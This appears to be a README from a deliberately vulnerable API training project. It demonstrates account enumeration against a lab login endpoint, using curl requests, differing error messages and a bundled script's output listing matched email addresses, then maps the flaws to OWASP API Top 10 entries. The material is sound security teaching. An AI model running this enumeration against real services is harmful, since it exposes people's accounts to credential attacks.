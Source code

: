 # Identify registered email addresses

A lot of valuable information has been leaked in the past by others. Attackers can easily get lists of email addresses - sometimes even with passwords - of accounts that were leaked elsewhere. Because our API returns errors messages that are too verbose and because there is no rate limiting on the `/auth/login` endpoint, attackers can easily match lists of email addresses with registered accounts. 

Here is a list of [1000 leaked email addresses](../../demos//attack-2/leaked.txt). With a bit of scripting - which I have done for you - you can easily try every email address and see what happens. The script sends the email address with password `password` to the API. Using the error message (`Wrong email address` or `Wrong password`) we can identify those email addresses that are registered with an account.

```bash
curl -X POST http://<hostname>:<port>/auth/login -H "Content-Type: application/json" -d "{\"email\":\"doesnotexist@gmail.com\",\"password\":\"password123\"}"
{"status":401,"message":"Wrong email address"}

curl -X POST http://<hostname>:<port>/auth/login -H "Content-Type: application/json" -d "{\"email\":\"overrillo0@redcross.org\",\"password\":\"password123\"}"
{"status":401,"message":"Wrong password"}
```

When we run the script we see that we've been able to match six email addresses. 

```bash
deliver haveibeenpwned ./leaked.txt
______ _____ _     _____ _   _ ___________
|  _  \  ___| |   |_   _| | | |  ___| ___ \
| | | | |__ | |     | | | | | | |__ | |_/ /
| | | |  __|| |     | | | | | |  __||    /
| |/ /| |___| |_____| |_\ \_/ / |___| |\ \
|___/ \____/\_____/\___/ \___/\____/\_| \_|


Attacking http://192.168.1.23:3333/auth/login
Dictionary has 1000 email addresses
Trying 100 batches of 10 emails

[==================================================] 100% 0.0s

Duration: 2.108 secs
Found 6 accounts

lposthill1@sbwire.com
pchampkin2@t.co
nratcliffe3@digg.com
odettmar4@salon.com
cdonnell5@desdev.cn
hhalward6@google.nl
``` 

In this example we've seen two of the [OWASP API top 10](https://owasp.org/www-project-api-security/) vulnerabilities:

- [API3-2019: Excessive Data Exposure](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa3-excessive-data-exposure.md) as there is too much information in the JWT token payload.
- [API4-2019: Lack of Resources & Rate Limiting](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa4-lack-of-resources-and-rate-limiting.md) as there is no restriction on how many times you can try to log in.
- [API7-2019: Security Misconfiguration](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa7-security-misconfiguration.md) as the error messages are too verbose and give an attacker clues about how to identify accounts. 

# Note 

- For convenience reasons I have included a script here that performs the attack for you. [Burp Suite](https://portswigger.net/burp) is a well-known application for penetration testing and provides similar featuers and much more. It has a steep learning curve, but if you are serious about penetration testing you'll want to dig into it.

- An awesome resource for checking if you own email address has every been compromised in a breach is the website [';-- Have I Been Pwned?](https://haveibeenpwned.com/).
